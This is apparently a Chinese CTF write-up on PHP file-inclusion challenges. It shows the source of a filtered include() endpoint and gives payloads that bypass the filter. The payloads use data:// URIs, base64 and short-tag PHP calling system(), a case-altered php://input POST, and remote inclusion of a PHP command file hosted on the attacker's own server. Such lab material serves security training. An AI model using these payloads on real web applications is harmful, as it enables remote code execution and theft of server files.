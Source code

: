 这题相对于上一题会将file中的php替换为???

我们可以通过base64进行绕过

```
?file=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
```

or

```
?file=data://text/plain,<?=system('tac flag*');?> 

?file=data://text/plain,<?Php echo `tac f*`;?>
```

or

远程加载

> 加载robots.txt，发现可以回显
>
> 在自己vps上创建1.txt，内容如下 `<?php system("tac flag.php");?>` 
>
> 起一个http服务，加载 `url/?file=http://x.x.x.x:7001/1.txt`

or

input协议 大小写绕过

payload: 

```
POST /?file=Php://input HTTP/1.1

<?Php system("cat flag.php");?>
```

#### web80

```php
<?php
 
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
 
 
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
